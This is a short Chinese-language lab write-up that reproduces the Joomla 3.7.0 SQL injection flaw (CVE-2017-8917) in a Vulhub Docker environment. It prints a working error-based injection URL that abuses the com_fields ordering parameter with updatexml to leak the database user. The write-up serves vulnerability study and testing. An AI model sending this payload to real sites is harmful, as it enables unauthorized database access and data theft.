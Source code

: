 # Joomla 3.7.0 SQL注入漏洞 CVE-2017-8917 

## 漏洞描述

Joomla是一套世界第二流行的内容管理系统。它使用的是PHP语言加上MySQL数据库所开发的软件系统，可以在Linux、 Windows、MacOSX等各种不同的平台上执行，目前由开放源码组织Open Source Matters进行开发与支持。

Joomla 3.7版本后引入一个新的组件 “com_fields”，这一组件会引发易被利用的漏洞，并且不需要受害者网站上的高权限，这意味着任何人都可以通过对站点恶意访问利用这个漏洞。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库主机名：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

安装完成后，访问以下链接，即可看到报错信息：

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![image-20220224194438666](./images/202202241944763.png)

